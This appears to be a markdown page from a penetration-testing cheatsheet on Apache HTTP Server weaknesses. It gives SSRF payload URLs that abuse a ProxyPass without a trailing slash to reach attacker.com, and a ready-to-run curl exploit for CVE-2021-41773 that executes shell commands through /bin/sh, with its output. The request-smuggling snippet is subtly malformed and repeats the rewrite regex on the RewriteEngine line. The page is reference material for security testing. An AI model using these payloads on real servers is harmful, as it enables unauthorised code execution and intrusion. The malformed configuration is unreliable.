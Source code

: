 ```yaml
---
title: "Apache"
description: "Cheatsheet on Apache HTTP"
lead: "Cheatsheet on Apache HTTP"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "framework"
weight: 620
toc: true
---
```


## Apache

[Apache HTTP](https://httpd.apache.org/) is a widely-used open-source web server software. It provides HTTP server functionality and supports customizable modules. It's maintained by the Apache Software Foundation.

## Misconfiguration

### SSRF - ProxyPass & No ending slash

No ending slash at the end of the `ProxyPass` directive allow an SSRF attack.

```xml
LoadModule proxy_module modules/mod_proxy.so
LoadModule proxy_http_module modules/mod_proxy_http.so

<VirtualHost *:80>
  ServerName victim.com
  ProxyPass / http://example.com
</VirtualHost>
```

- `http://victim.com/@attacker.com/`
- `http://victim.com/.attacker.com/`

## Vulnerabilities

### CVE-2023-25690 - Request Smuggling

- Version: `2.4.0-55`

```bash
RewriteEngine "^/here/(.*)" "http://example.com:8080/elsewhere?$1";
RewriteRule "^/here/(.*)" "http://example.com:8080/elsewhere?$1";
```

### CVE-2021-41773 - Path Traversal & Potential RCE

- Version: `2.4.49`

```bash
$ curl 'http://localhost/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh' \
    -d 'echo Content-Type: text/plain; echo; id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Resources

- [weird_proxies / Apache](https://github.com/GrrrDog/weird_proxies/blob/master/Apache.md)
- [Apache HTTP Server 2.4 vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)